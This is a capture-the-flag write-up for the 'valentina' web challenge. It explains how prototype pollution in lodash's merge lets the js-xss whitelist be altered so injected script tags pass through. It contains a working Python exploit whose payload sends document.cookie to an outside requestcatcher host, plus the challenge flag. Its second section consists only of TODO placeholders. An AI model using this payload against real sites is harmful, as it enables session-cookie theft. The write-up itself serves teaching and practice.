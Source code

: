 # valentina

Valentina contained 2 challenges sharing a vulnerability but with different applications.

## Challenge 1

```
TODO: Ask Vie for challenge desc
Summary: Valentina checks her reviews occasionally with secrets in her cookies.
```

## Walkthrough 1

Given that this project was deep into npm dependency hell the first obvious step was to check if any libraries had vulnerabilies.

```
$ npm audit
...
lodash  <=4.17.20
Severity: critical
Command Injection in lodash - https://github.com/advisories/GHSA-35jh-r3h4-6jhm
Prototype Pollution in lodash - https://github.com/advisories/GHSA-p6mc-m468-83gw
Prototype Pollution in lodash - https://github.com/advisories/GHSA-jf85-cpcp-j695
Prototype pollution in lodash - https://github.com/advisories/GHSA-x5rq-j2xg-h7qm
Prototype Pollution in lodash - https://github.com/advisories/GHSA-fvqr-27wr-82fm
...
```

Digging into these vulnerabilties and the source code unveiled that [CVE-2018-3721](https://snyk.io/test/npm/lodash/4.17.4#npm:lodash:20180130), a [prototype pollution](https://www.whitesourcesoftware.com/resources/blog/prototype-pollution-vulnerabilities/) vulnerability, was likely the target.

> The vulnerable functions are 'defaultsDeep', 'merge', and 'mergeWith' which allow a malicious user to modify the prototype of Object via __proto__ causing the addition or modification of an existing property that will exist on all objects.

```js
app.post('/add_review', function (req, res) {
	// ...
	let review_template = {
		review_id: id,
		name: "Valentina",
		message: "your work is amazing!",
		stars: 5
	}

	let new_review = req.body;
	_.merge(review_template, new_review); // <-- this looks vulnerable!
	let cleaned_msg = xss(new_review.message);
	reviews.set(id, cleaned_msg);
	// ...
});
```

Now that I had a way to pollute arbitrary objects, I just needed to find a way to bypass `xss()`, an html escaping function in [xssjs](https://github.com/leizongmin/js-xss).

```js
FilterXSS.prototype.process = function (html) {
	// ...
	var options = me.options; 			// not set in valentina
	var whiteList = options.whiteList;  // looks like we can control this
	// ...
```

Reading the source code revealed that we could control the `whiteList` variable which controlled which tags were escaped.

```json
//  getDefaultWhiteList()
{
	a: ["target", "href", "title"],
	abbr: ["title"],
	address: [],
	// ...
}
```

To retreieve the cookies I addded the `script` tag to the whitelist and than had the admin visit the review.

```py
import requests

url = "http://localhost:8999/add_review"
payload = "fetch('https://crimist.requestcatcher.com/'+document.cookie)"
review = requests.post(url, headers={'content-type': 'application/json'},
                            data='{"__proto__": {"whiteList": {"script": []}}, "message": "<script>' + payload + '</script>"}')
id = review.text.split(":")[1]
print("http://localhost:8999/view_review?review_id=" + id)
```

## Solve 1

`maple{l0d4sh_more_lyk_n0da5h_haha_get_it}`

## Challenge 2

```
TODO: Ask Vie for challenge desc
```

## Walkthrough 2

TODO

## Solve 2

TODO
